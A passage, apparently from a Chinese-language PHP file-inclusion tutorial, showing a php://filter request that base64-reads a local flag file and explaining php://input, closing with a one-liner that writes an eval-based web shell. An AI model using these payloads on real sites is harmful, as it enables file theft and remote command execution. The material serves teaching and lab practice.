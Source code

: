 Linux下必须使用正斜杆(`/`)

![images](/images/2019-03-19/ln02.png)

当然还可以配合`php://filter`协议使用，

```
http://localhost/include.php?file=php://filter/read=convert.base64-encode/resource=file://D:\phpStudy\PHPTutorial\WWW\flag.txt
```

----

<span id = "a11">**2. php://input协议**</span> <br>

说明：简单来说就是能够将post请求中的数据作为PHP代码执行<br>

需要将`allow_url_include`开启

**注：当`enctype='multipart/form-data'` 的时候 `php://input` 是无效的**<br>

**测试：**

![images](/images/2019-03-19/ln03.png)

也可以post生成一句话<br>
```
<?php fputs(fopen("shell.php","w"),'<?php eval($_POST['cmd']);?>');?>
```
